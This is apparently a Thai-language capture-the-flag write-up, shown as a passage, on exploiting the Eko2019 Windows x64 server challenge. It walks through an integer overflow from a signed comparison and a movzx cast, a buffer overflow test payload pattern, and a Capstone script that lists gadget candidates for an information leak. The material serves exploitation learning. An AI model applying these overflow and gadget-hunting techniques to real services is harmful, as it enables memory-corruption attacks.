1. **Integer Overflow** 

    จากการที่เราทำการ Reverse Engineer เนี่ยเราพบว่าเพื่อเราส่ง Header Packet เข้าไปที่ Server แล้ว Server จะทำการตรวจสอบว่า Msg size ใน Header Packet เนี่ยน้อยกว่า 0x200 Bytes รึเปล่า

    ![Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%205.png](Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%205.png)

    จะเห็นว่าทำใช้ Jump Condition `jle` ซึ่งเป็น Condition ที่ใช้ Compare แบบ [Signed](https://stackoverflow.com/questions/27284895/how-to-compare-a-signed-value-and-an-unsigned-value-in-x86-assembly) และถูก Cast เป็น Unsign ด้วย `movzx` ([ref](https://www.aldeid.com/wiki/X86-assembly/Instructions/mov))

    ![Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%206.png](Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%206.png)

    ลองใช้ WinRepl เพื่อจำลองว่าเมื่อ `movzx` จะได้เป็นค่าจาก `0xffffffff` เป็น `0xffff`

    ![Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%207.png](Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%207.png)

    แล้วค่าใน eax จะถูกนำไปใช่ต่อไปเป็น len ของ recv() นั่นหมายความว่าเราสามารถส่งค่าได้มาก 0x200 Bytes แล้ว

2. **Buffer Overflow** 

    เมื่อเราสามารถส่งได้มากกว่า 0x200 bytes แล้วเราจึงลองส่ง Payload ไปหน้าตาแบบนี้

    ```
    [ "A"*0x200 ][ "B"*0x8 ][ "C"*0x8 ]
    ```

    จะพบว่าเมื่อเราไปไม่เกิด 0x210 Bytes Process จะไม่ Crash และสามารถควบคุม Executable ได้ 1 Byte(ตรงนี้ต้อง Reverse + Debug ด้วย debugger) กับอีก 1 Register 

    ![Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%208.png](Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%208.png)

3. **Information Leak**

    ตรงนี้เราพบแล้วว่าเราสามารถควบคุม XX ได้จาก Code ชุดนี้ `XX\x48\x8b\x01` เราเลยลอง Generate ชุด Gadget ต่าง ๆ ที่เราสามารถใช้งานได้ทั้งหมดโดยใช้ Code ของ [Capstone](https://www.capstone-engine.org/lang_python.html)  มาโม

    ```python
    from capstone import *

    # code = b'\xzz\x48\x8b\x01'
    template_code = b'\x48\x8b\x01'
    md = Cs(CS_ARCH_X86, CS_MODE_64)

    filter = ()

    f = open("asm_out", "w")
    for x in range(0x00,0xff):
        gen = bytes([x]) + template_code
        tmp = "-----------------\n"
        tmp += "XX => %s\n" %str(hex(x))
        for i in md.disasm(gen, 0x1):
            if i.mnemonic not in filter:
                tmp += "0x%x:\t%s\t%s\n" %(i.address, i.mnemonic, i.op_str)
        tmp += "-----------------\n"
        print(tmp)
        f.write(tmp)
    ```
